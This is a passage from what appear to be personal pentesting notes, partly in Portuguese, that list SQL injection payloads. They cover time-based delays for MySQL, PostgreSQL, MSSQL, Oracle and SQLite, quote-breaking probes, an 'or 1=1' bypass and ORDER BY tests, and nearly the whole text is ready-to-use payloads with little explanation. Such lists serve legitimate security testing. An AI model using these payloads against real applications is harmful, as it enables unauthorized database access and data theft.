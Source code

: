 SQLite

    1 AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1 AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
    

### String

Payloads:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))
    
MySQL (string concat and logical ops)

    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
PostgreSQL (only support string concat)

    1' || pg_sleep(10)
    
MSQL

    1' WAITFOR DELAY '0:0:10'
    
Oracle

    "' or 1=1--

    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
SQLite

    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

### Próprio comando SQL (order by clauses...)

Nesse caso basta informar um comando SQL válido para identificação da vulnerabilidade

Payloads:

    1 ASC --
    1 DESC --

![qownnotes-media-yQZcch](media/qownnotes-media-yQZcch.png)

